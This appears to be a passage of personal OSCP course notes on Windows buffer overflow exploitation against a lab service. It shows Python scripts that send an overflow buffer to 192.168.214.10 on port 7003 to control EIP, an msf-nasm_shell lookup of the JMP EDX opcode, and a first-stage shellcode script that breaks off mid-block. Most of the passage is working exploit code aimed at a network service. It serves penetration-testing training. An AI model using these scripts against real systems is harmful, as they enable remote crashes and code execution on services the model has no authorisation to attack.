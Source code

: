 ## Find space for first stage shellcode
We will verify the crash and use the technique of increasing our buffer.
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 2_verify_offset.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  filler = "B" * 2080
  eip = "Y" * 4
  buffer = "Z" * (2100 - len(filler) - len(eip))
  inputBuffer = filler + eip + buffer

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

The app crashes at EIP 59595959 (the Y's), and we see that EDX looks like a good place to put shellcode. Or is it... the address may not be good.

Get the opcode for JMP EDX
```plaintext
kali@kali:~$ msf-nasm_shell 
nasm > jmp edx
00000000  FFE2              jmp edx
nasm > 
```

Modify the code to replace the stack pointer to point to EDX.
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 3_first_stage_shellcode.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  filler = "B" * 2080
  eip = "Y" * 4
  first_stage = "\xff\xe2"  # JMP EDX -> ffe2
  nop_pad  = "\x90" * (2100 - len(filler) - len(eip) - len(first_stage))
  inputBuffer = filler + eip + first_stage + nop_pad

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
```